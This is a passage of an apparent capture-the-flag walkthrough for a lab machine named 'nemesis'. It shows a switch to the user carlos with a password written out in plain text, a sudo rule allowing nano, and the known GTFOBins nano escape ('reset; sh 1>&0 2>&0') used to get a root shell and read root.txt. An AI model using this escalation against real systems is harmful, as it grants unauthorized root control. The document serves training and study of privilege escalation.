




Getting 3rd flag
a) Connect via SSH as you did on section “3.2 Connecting via SSH”.
b) Log in as “carlos” user.
$ su carlos
Password: “ENCRYPTIONISFUNPASSWORD”
c) Let's see what “carlos” may run.
$ sudo -l
Output:

“carlos” may run the following commands on nemesis:
(root) /bin/nano /opt/priv
The user can only use “sudo” in “/opt/priv” directory, if the user will try to use it some other place, he will be restricted.
d) Visit https://gtfobins.github.io/gtfobins/nano/#sudo and you'll find a way of exploit these privileges to get a root shell.
Run the following code:
carlos@nemesis:~$ export TERM=xterm
carlos@nemesis:~$ sudo /bin/nano /opt/priv
carlos@nemesis:~$ sudo /bin/nano /opt/priv
e) After running “nano” you have to enter in “Command Execution” so enter “Ctrl+R” and then “Ctrl+X”.
Output:

f) Type “reset; sh 1>&0 2>&0” and “Enter”.
You'll get a “root” shell.
g) Type “id”.
Output:

h) Introduce the following commands on the shell:
python -c 'import pty;pty.spawn("/bin/bash")'
Output:
root@nemesis:/home/thanos#
i) Introduce the following commands on the shell:
root@nemesis:/home/thanos# cd /root
root@nemesis:~# ls
root@nemesis:~# cat root.txt
root@nemesis:~# ls
root@nemesis:~# cat root.txt
Output:
